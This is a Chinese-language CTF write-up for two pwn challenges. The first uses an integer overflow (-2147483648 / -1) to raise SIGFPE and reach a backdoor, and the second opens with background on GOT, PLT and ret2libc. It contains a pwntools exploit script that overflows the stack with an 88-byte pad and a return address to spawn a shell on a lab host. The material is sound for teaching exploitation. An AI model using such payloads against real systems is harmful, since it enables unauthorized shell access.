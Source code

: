 # 第36题、`整数溢出`分析及解决方案

## **触发 `SIGFPE` 的机制**：
 触发 `SIGFPE` 的常见方式是通过除以零或整数溢出。例如，在整数溢出时，程序会调用 `signal(SIGFPE, handler)` 中指定的 `handler`，这里就是 `backdoor`。

## 解题思路
1. **IDA 静态分析**：
   - 发现程序中存在一个后门函数 `backdoor`，它的功能是通过栈溢出漏洞执行任意命令。
   - 然而，程序正常运行中没有直接调用 `backdoor` 函数，而是通过 `signal` 机制设置了 `SIGFPE`（浮点异常/整数溢出）信号处理，当触发 `SIGFPE` 时会调用 `backdoor` 函数。

2. **触发整数溢出**：
   - 可以利用整数溢出的特性，例如在 32 位系统上，整数的范围是 `[-2147483648, 2147483647]`。
   - 当计算 `-2147483648 / -1` 时，结果应该是 `2147483648`，但由于超过了 `int` 的最大值 `2147483647`，导致溢出，从而触发 `SIGFPE`。

3. **栈溢出执行任意命令**：
   - 在触发 `backdoor` 后，利用栈溢出漏洞控制函数的返回地址，跳转到系统函数 `system("/bin/sh")`，即可获得 shell。

## 解题脚本
```python
from pwn import *

host = '10.12.153.73'
port = 10413
p = remote(host, port)

p.sendlineafter(b"first key :", b'-2147483648')
p.sendlineafter(b"second key :", b'-1')
payload = cyclic(88) + p64(0x4007CB)
p.sendlineafter(b"your name :", payload)
p.interactive()

# 做这一题时平台爆炸了
# 我拿到的flag：flag{TEST_FLAG}
```

# 第37题、`ret2libc`分析及解决方案

## **背景知识**
1. **GOT（Global Offset Table）：**
   GOT 是一个表格，存储了程序中动态链接库函数的实际地址。在第一次调用动态函数时，GOT 中的条目被动态解析并填充实际地址，之后的调用直接通过 GOT 跳转到对应函数。

2. **PLT（Procedure Linkage Table）：**
   PLT 是程序调用动态函数的入口，通过 PLT 表可以间接访问 GOT。每次调用动态库函数时，程序会先跳转到 PLT，PLT 再使用 GOT 中记录的实际地址完成函数调用。

3. **libc：**
   libc 是 Linux 系统的标准 C 库，包含常见的系统调用和函数，例如 `read`、`system` 和 `/bin/sh` 的字符串。攻击者通过利用程序加载的 libc，结合其已知偏移地址，实现攻击。
